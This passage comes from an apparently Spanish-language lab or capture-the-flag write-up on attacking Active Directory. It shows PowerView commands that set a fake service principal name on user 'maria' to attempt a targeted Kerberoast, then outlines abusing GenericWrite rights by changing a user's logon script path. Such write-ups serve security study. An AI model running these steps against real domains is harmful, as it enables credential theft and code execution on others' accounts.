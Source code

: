<figure><img src="../../../.gitbook/assets/3152_firefox_FMo6wtTujg.png" alt=""><figcaption></figcaption></figure>

Probando de realizar el _**Targeted Kerberoast**_, nos aparece un error de Kerberos, lo cual no nos permite realizar dicho ataque.

```powershell
Get-DomainUser 'maria' | Select serviceprincipalname

Set-DomainObject -Identity 'maria' -Set @{serviceprincipalname='nonexistent/BLAHBLAH'}

$User = Get-DomainUser 'maria'

$User | Get-DomainSPNTicket | fl
```

<figure><img src="../../../.gitbook/assets/3153_vmware_oxgETotTCl.png" alt=""><figcaption></figcaption></figure>

Debido que no hemos podido realizar el ataque, desde [HackTricks ](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse#genericwrite-on-user)revisamos el ACL de _**GenericWrite on User**_ en busca de intentar realizar otro tipo de ataque.

Este permiso permite a un atacante modificar las propiedades de un usuario. Un atacante puede llegar a cambiar la ruta del script de inicio de sesión (Script Path Logon) de un usuario para ejecutar un script malicioso al iniciar sesión.

<figure><img src="../../../.gitbook/assets/3155_firefox_IwaWBKucN2.png" alt=""><figcaption></figcaption></figure>